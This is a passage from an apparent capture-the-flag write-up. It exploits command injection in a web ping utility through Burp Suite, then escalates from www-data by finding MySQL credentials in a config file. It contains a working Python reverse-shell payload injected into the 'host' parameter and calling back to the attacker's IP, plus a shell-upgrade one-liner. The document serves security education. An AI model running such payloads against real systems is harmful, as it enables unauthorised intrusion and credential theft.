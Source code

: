 ![](https://i.imgur.com/LrizBe5.png)


Pinging 8.8.8.8, I can see that it actually runs the ping command and shows the output on webpage:  

![](https://i.imgur.com/s22xbtM.png)


I intercepted the request with Burp Suite to tamper command.

What was interesting is that I can choose whatever command I want to using Burp Suite: 

![](https://i.imgur.com/c0ddtJd.png)

I tried listing out home directory of the target and I can see that it works:
  
![](https://i.imgur.com/UROdxTS.png)

### Reverse Shell

With netcat listener running locally on my Kali machine, I ran the following payload through Burp Suite:

```python
command=python3&host=-c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.15",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![](https://i.imgur.com/xIydAXZ.png)


Now I have shell as **www-data**:


![](https://i.imgur.com/zdefZkP.png)


Before I do anything, I first enhanced the shell: 

`python3 -c 'import pty; pty.spawn("/bin/bash")'
`

  

## Privesc www-data to root
### Local Enumeration

Before running linpeas, I manually looked around the file system and on **/var/www/admin**, I saw **config.php** which seemed interesting:

![](https://i.imgur.com/jEsoANT.png)


  

It had MySQL credentials in it -> **admin:kEjdbRigfBHUREiNSDs**
  